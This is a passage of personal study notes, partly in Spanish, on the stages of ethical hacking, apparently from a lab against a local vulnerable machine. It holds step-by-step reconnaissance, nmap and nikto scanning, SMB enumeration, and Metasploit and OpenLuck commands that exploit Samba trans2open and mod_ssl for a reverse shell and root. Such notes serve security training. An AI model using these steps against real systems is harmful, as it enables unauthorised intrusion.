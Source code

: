 # The 5 Stages of Ethical Hacking ❮❯

## 1 Reconnaissance 
### Passive
**Physical** - > Location information: Satellite images, drone decon, building layouts (badge readers, break areas, security, fencing)
**Social** -> Job information: Employees (name, job tittle, phone number, manager...), Picutures (badge photos, desk photos, computer photos...)

**Web / Host** 
	**Target validation** -> WHOIS, nslookup, dnsrecon
	**Finding subdomains** -> Google Fu, dig, Nmap, Sublist3r, Bluto, crt.sh, etc...
	**Fingerprinting** -> Nmap, Wapalyzer, WhatWeb, BuiltWith, Netcat
	**Data Breaches** -> HaveIBeenPwned, Breach-Parse, WeLeakInfo

#### Discovering Email Addresses
- https://hunter.io/ Pagina Web para buscar los email addresses de las personas importantes de la company 
- https://phonebook.cz/ Pagina Web para email addresses, subdominios, domains y URLs free
- https://www.voilanorbert.com/ Encontrar emails, pero debes de instalar el pluggin

### Active
## 2 Scanning and Enumeration 

Nmap, Nessus, Nikto, etc...

### Scanning network
❯ **ifconfig** Para ver nuestra interface y nuestra IP
❯ **arp-scan -l** Para escanear la nuestra red y ver dispositivos estan conectados (l=ele)
❯ **arp-scan -I ens33 --localhost** Para escanear nuestra interface y ver los dispostivos de la red (I=i mayuscula)
❯ **netdiscover -r 192.168.68.0/24** Descubriremos las maquinas utilizando ARP (r=range)

### Scanning with Nmap
❯ **nmap --help** Nos muestra las opciones de Nmap
❯ **nmap -T4 -p- -A 192.168.68.112** Escanearemos los puertos (T4=velocidad, p=Todos los puertos, A=Version, SO, finger printing, etc... all) y agregamos la IP de la victima (T4 es para VH, HTB ya que no es detectado, pero va lento)

### Enumeration HTTP y HTTPS
- 80/443 - Apache - Default WebPage -  PHP Potencial ataque
- Error 404 - Information Disclosure - Cuando nos sale un error en un enlace y podemos adjuntar la captura de pantalla
❯ **nikto -h <IP.ADDRESS>** Asi podemos empezar el escaneo de vulnerabilidades web (h=host, IP.address=http://)
	Podemos hacer un archivo en donde podemos colocar el resultado de Nikto
❯ **dirbuster&** Para enumerar directorios, Asi abrimos la  interface del programa

### Enumerating SMB
 - **msfconsole** Para iniciar metaesploit
	❯ **search smb** En este caso buscaremos exploits de SMB, podemos encontrar:
		* Modulos: 'Auxiliary, Exploits, Post, Payload'
		* Tipo de Accion: 'Dos, Fuzzers, Scanner, Gather'
	
	❯ **use 60** Para usar el modulo, lo podremos hacer con la ruta o con el numero 
	❯ **info** Mirar la informacion del modulo
	❯ **options** Para ver las opciones del modulo y ver que necesitamos colocar para que funcione correctamente
	❯ **set RHOSTS 192.168.68.112** Colocamos la IP target en el modulo
	❯ **run** Para ejecutar el exploit

Nos muestra que en el purto 139 tenemos una version de Unix (Samba 2.2.1a)

O podemos usar el siguiente comando:

❯ **smbclient -L \\\\\\\\192.168.68.112\\\\** Tendremos acceso anonimo al SMB y le damos enter ya que no hay passwd, ahi descubrimos un usuario ADMIN$ e IPC$
❯ **smbclient \\\\\\\\192.168.68.112\\\\ADMIN$** Ahora colocamos el usuario y le damos enter, pero en esta ocasion si se necesita una passwd
❯ **smbclient \\\\\\\\192.168.68.112\\\\IPC$** Colocamos al segundo usuario y sin necesidad de passwd podemos ingresar al SMB
	❯ **help** Miramos la ayuda y los comandos que podemos ejecutar en el SMB 
	❯ **ls** Para listar lo que hay en servidor
	❯ **exit** Para salir del SMB

### Researching Potential Vulnerabilities
- 80/443 - Apache - Default WebPage -  PHP Potencial ataque
- Error 404 - Information Disclosure - Cuando nos sale un error en un enlace y podemos adjuntar la captura de pantalla
- Information Disclosure - 404 error - Salio de la pagina Web
- Information Disclosure - server headers disclose version information - Salio de la pagina Web
- mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow OSVDB-756 - Salio de Nikto
- SMB Samba - Unix Samba(samba 2.2.1a)
- Webalizer version 2.01 
- Open SSH 2.9p2

Buscamos en Google **mod_ssl/2.8.4 exploit (Puerto 80/443)** esto por la informacion que habiamos encontrado en el informe de Nikto
https://www.exploit-db.com/exploits/764
https://github.com/heltonWernik/OpenLuck

Buscaremos en Google para **Samba 2.2.1a (SMB Puerto 139)**
https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/ En donde te guia a usar Metasploit
https://www.exploit-db.com/exploits/7
https://www.exploit-db.com/exploits/10 Remote Code Execution

Tambien podemos usar 
❯ **searchsploit samba 2.2.1a** Para ver en la base de datos de Searchsploit que, pero en este caso debes de no ser tan especifico Samba 2
❯ **searchsploit mod ssl 2** Nos mostrara diferentes exploits de mod ssl 

## 3 Gaining Acees (Explotation)
Lo podemos hacer de dos formas, con Metasploit o de Forma Manual 
Forma Automatica
En este caso utilizaremos Metasploit para poder entrar 
❯ **msfconsole** 
	❯ **search trans2open**
	❯ **use 1**
	❯ **options**
	❯ **set RHOST 192.168.68.112**
	❯ **run o exploit**

Miramos en options que esta ejecutado un **staged payload** ya que tenemos un **linux/x86/meterpreter/reverse_tcp**
Si no funciona podriamos hacer lo siguiente y buscaremos un **Non-staged payload**
❯ **set payload linux/x86/** Antes de completar el payload, podemos darle doble TAB para ver las opciones y los demas Payloads
❯ **set payload linux/x86/shell_reverse_tcp** 
❯ **options** 
❯ **run** Ejecutamos  


Forma manual de hacernos Root
❯ **./open 0x6b 192.168.68.112 -c 40** Este nos ayudara a entrar por Apache en la version 1.3.20
* Primero corremos el exploit sin nada para ver las opciones y ahi ver que version de Apache tendremos que escoger (0x6b)
* IP -> Es la de la maquina victima 
* c -> Numero de conexiones entre 40 - 50

## 4 Maintaining Access

## 5 Covering Tracks
